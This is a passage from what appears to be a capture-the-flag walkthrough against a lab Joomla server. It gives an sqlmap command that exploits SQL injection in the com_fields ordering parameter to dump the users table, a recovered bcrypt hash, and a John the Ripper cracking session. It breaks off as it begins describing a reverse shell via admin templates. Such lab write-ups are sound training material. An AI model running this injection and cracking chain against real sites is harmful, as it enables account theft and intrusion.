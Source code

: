 ```bash
| #__user_usergroup_map      |
| #__usergroups              |
| #__users                   |
| #__utf8_conversion         |
| #__viewlevels              |
+----------------------------+
```

Next dump the **users** table:

```bash
sqlmap -u "http://10.10.154.219/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] --dump -T "#__users" -D joomla
```

This will take a lot of time but you should be able to obtain the informations for the Jonah user, including the password hash:  
`$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm`.
By researching the format you can find out that is a **bcrypt** hash.

## Hash cracking

Now it's time to crack the hash! Create a _joomla.hash_ file containing the hash retrieved earlier.
For the task you can use **John the Ripper** which supports bcrypt hashes.

```bash
john --format=bcrypt joomla.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
[REDACTED]     (?)
1g 0:00:16:58 DONE (2024-10-24 18:55) 0.000981g/s 45.98p/s 45.98c/s 45.98C/s sweet28..spaceship
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

## Get a shell

The credentials found in the previous step allow you to log in to the admin portal, which is located in the _/administrator_ subfolder found earlier in the nmap scan.
You can abuse this access to get a reverse shell on the target machine.  
Click on the **Templates** menu entry.

